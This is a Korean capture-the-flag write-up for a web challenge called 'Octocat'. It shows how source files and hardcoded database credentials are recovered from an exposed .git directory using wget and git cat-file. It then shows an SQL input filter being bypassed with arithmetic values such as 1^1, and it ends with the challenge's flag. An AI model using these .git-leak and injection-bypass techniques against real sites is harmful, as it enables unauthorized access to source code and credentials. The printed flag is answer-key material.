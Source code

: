 # Octocat

**Description:**
> 코딩, 마크다운 작성 등 다재다능한 문어발 고양이  
> ^ↀᴥↀ^

## Write-up
![Main](img/001.png)  
메인 페이지에 접근해보면 MarkDown 문법 몇 가지가 소개되어 있고 별다른 기능을 볼 수 없습니다.  
다른 기능이나 페이지를 더 알아보기 위해서 robots.txt 파일에 접근하여 확인해보면 다음과 같이 /admin 디렉터리가 Disallow 되어 있는 것을 볼 수 있습니다.

robots.txt:  
```
User-agent: *
Disallow: /admin
```

/admin 디렉터리에 접근을 해보면 메인 페이지와 마찬가지로 별다른 정보를 얻을 수 없습니다.  
![Forbidden](img/002.gif)

메인 페이지의 제목인 Octocat과 MarkDown 문법들을 연관지어서 생각해보면 Github와 관련된 정보임을 알 수 있습니다.  
해당 서버는 개발자가 서버에서 Git을 사용하는 것으로 추측하고 Git을 사용하면서 발생할 수 있는 문제들을 생각하다보면 .git 디렉터리에 대해 알 수 있습니다.

.git 디렉터리는 로컬에서 Git 저장소를 사용하면서 발생하는 정보들을 기록하고 저장하는 공간입니다.  
일반적으로는 리모트 서버에 데이터를 push할 경우 해당 디렉터리는 포함되지 않은 상태로 전송되지만, 현재 로컬 저장소가 웹 서버 내에 있어서 .git 디렉터리에도 접근할 수가 있습니다.

/.git/  
```
Forbidden
You don't have permission to access /.git/ on this server.
```

디렉터리 리스팅이 되지 않아 폴더 내 정보를 알기가 어렵지만 아래의 파일을 통해 시작점을 찾을 수 있습니다.  
/.git/logs/HEAD  
/.git/logs/refs/heads/master  
```
0000000000000000000000000000000000000000 4dd07c84eb0806550ce82d9dd9517ae6f04bfaed do9dark <do9dark@gmail.com> 1506527313 +0900	commit (initial): Create Octocat
4dd07c84eb0806550ce82d9dd9517ae6f04bfaed f731b14ffc633e70888bf639c320464dd2c71920 do9dark <do9dark@gmail.com> 1506527416 +0900	commit: Create robots
f731b14ffc633e70888bf639c320464dd2c71920 377c0f08d7f0317b18df6d9e8bd956f7940831d9 do9dark <do9dark@gmail.com> 1506527919 +0900	commit: Create admin
```

commit 이력을 보면 마지막에 Create admin 되어 있는 부분을 볼 수 있습니다.  
그리고 해당 커밋의 정보는 앞에 해시 값을 분석하여 확인할 수 있습니다.

377c0f08d7f0317b18df6d9e8bd956f7940831d9  
37 | 7c0f08d7f0317b18df6d9e8bd956f7940831d9  
앞의 2자리는 디렉터리명이 되고 나머지 값은 파일명이 됩니다.  
그리고 해당 파일은 아래와 같이 저장되어 있습니다.  
/.git/objects/37/7c0f08d7f0317b18df6d9e8bd956f7940831d9

해당 파일의 정보를 확인하기 위해서 빈 디렉터리를 만든 다음 git init 명령어를 입력하여 임의의 Git 저장소를 만듭니다.  
```
# git init
Initialized empty Git repository in /Octocat/.git/
```

그리고 7c0f08d7f0317b18df6d9e8bd956f7940831d9 파일을 다운로드 받아서 .git/objects/ 디렉터리에 동일한 형태로 추가합니다.  
```
# wget https://do9.kr/Octocat/.git/objects/37/7c0f08d7f0317b18df6d9e8bd956f7940831d9
# mkdir .git/objects/37/
# mv 7c0f08d7f0317b18df6d9e8bd956f7940831d9 .git/objects/37/
```

다운받은 파일의 정보를 git cat-file 명령어를 통해 확인할 수 있습니다.  
```
# git cat-file -p 377c0f08d7f0317b18df6d9e8bd956f7940831d9
tree 6380e82b43310c73c3fef2236b989c9b1cad4ab6
parent f731b14ffc633e70888bf639c320464dd2c71920
author do9dark <do9dark@gmail.com> 1506527919 +0900
committer do9dark <do9dark@gmail.com> 1506527919 +0900

Create admin
```

확인한 정보에서 tree의 값을 동일한 방법으로 다시 다운로드 받아서 확인합니다.  
```
# wget https://do9.kr/Octocat/.git/objects/63/80e82b43310c73c3fef2236b989c9b1cad4ab6
# mkdir .git/objects/63/
# mv 80e82b43310c73c3fef2236b989c9b1cad4ab6 .git/objects/63/
# git cat-file -p 6380e82b43310c73c3fef2236b989c9b1cad4ab6
040000 tree ca2bff0667f07de553c49ffcae1ced0ff088b690	admin
040000 tree b238a9eb78dfaeaadde90073d9c31e726eaa448c	images
100644 blob 34293c323587dcc7876d877a9c9aa924d515db5c	index.php
100644 blob f8a0a9baa76ce27b98b42075bee53eada22b962d	robots.txt
```

중요 정보가 있을 것으로 생각되는 admin의 정보를 얻기 위해 다시 tree의 값을 확인합니다.  
```
# wget https://do9.kr/Octocat/.git/objects/ca/2bff0667f07de553c49ffcae1ced0ff088b690
# mkdir .git/objects/ca/
# mv 2bff0667f07de553c49ffcae1ced0ff088b690 .git/objects/ca/
# git cat-file -p ca2bff0667f07de553c49ffcae1ced0ff088b690
100644 blob 9c7aba35acd0b11b75139d8a8bc82dc6f3efad89	config.php
100644 blob f8becac1dc52e23d7844a9162b19968e8a1bc356	index.php
```

config.php 파일의 내용을 확인합니다.  
```
# wget https://do9.kr/Octocat/.git/objects/9c/7aba35acd0b11b75139d8a8bc82dc6f3efad89
# mkdir .git/objects/9c/
# mv 7aba35acd0b11b75139d8a8bc82dc6f3efad89 .git/objects/9c/
# git cat-file -p 9c7aba35acd0b11b75139d8a8bc82dc6f3efad89
<?php
	mysql_connect("localhost", "root", "toor");
	mysql_select_db("CTF");
	# Temp Flag...
	$flag = md5("None");
?>
```

Flag 값이 있으나 임시 값으로 현재 서버 값과는 다르기 때문에 인증할 수 없는 값입니다.  
미궁의 /admin/index.php 파일의 내용을 확인합니다.  
```
# wget https://do9.kr/Octocat/.git/objects/f8/becac1dc52e23d7844a9162b19968e8a1bc356
# mkdir .git/objects/f8/
# mv becac1dc52e23d7844a9162b19968e8a1bc356 .git/objects/f8/
# git cat-file -p f8becac1dc52e23d7844a9162b19968e8a1bc356
<!DOCTYPE html>
<html>
<head>
	<title>ADMIN</title>
	<style type="text/css">
		body {
			background-color: #FFFFFF;
			background-image: url("../images/admin.gif");
			text-align: center;
			vertical-align: middle;
		}
	</style>
</head>
<body>
	<?php
		error_reporting(0);
		include("config.php");
		
		if(isset($_GET['hack'])) {
			if(preg_match("/_|\.|0|9|=|\"|\'|\`|#|-|@|\(|\)|[a-z]/", $_GET['hack'])) exit("<h1>No Hack</h1>");
			
			$query = mysql_query("SELECT * FROM user WHERE no=$_GET[hack]") or die("<h1>No Hack</h1>");
			$data = mysql_fetch_array($query);

			# mysql> select * from CTF.user;
			# +-------+-------+
			# | no    | name  |
			# +-------+-------+
			# | 31337 | guest |
			# | pwned | admin |
			# +-------+-------+
			# 2 rows in set (0.00 sec)

			if($data[1] == "guest") echo("<h1>Access Denied</h1>");
			else if($data[1] == "admin") echo("<h1>Flag is TDCTF{{$flag}}</h1>");
			else echo("<img src='../images/hack.png'>");
		}
	?>
</body>
</html>
```

/admin/index.php 파일을 보면 GET 파라미터를 통해 hack 값을 입력 받아서 $data[1] 값이 admin이 되도록 조건을 맞춰주면 Flag를 획득할 수 있습니다.

하지만 hack 값에는 숫자 0, 9와 문자, 몇 가지 기호들을 입력할 경우 종료되도록 되어있고 admin이 되도록 조건을 맞춰주기 위해서는 no=pwned가 되어야 하기 때문에 일반적인 방법으로는 조건을 만족하게 할 수가 없습니다.

31337를 입력하면 Access Denied가 표시되고, 존재하지 않는 정보를 입력하면 아래와 같은 이미지가 표시됩니다.  
![Hack](img/003.png)

이 부분은 입력한 값이 0이 되도록 수식을 이용하여 우회할 수 있습니다.  
/admin/?hack=1^1  
/admin/?hack=1%1  
...  
위와 같이 수식의 결과 값이 0이 되도록 만들어주면 조건문 no의 저장된 데이터 중에서 문자열로 시작하는 정보만 출력이 되어 pwned의 값을 가진 admin이 $data[1]에 저장되어 Flag를 획득할 수 있습니다.  
![Flag](img/004.png)

## Flag
TDCTF{f914ccb5c1bb4a0cdff05d4ee69896f0}
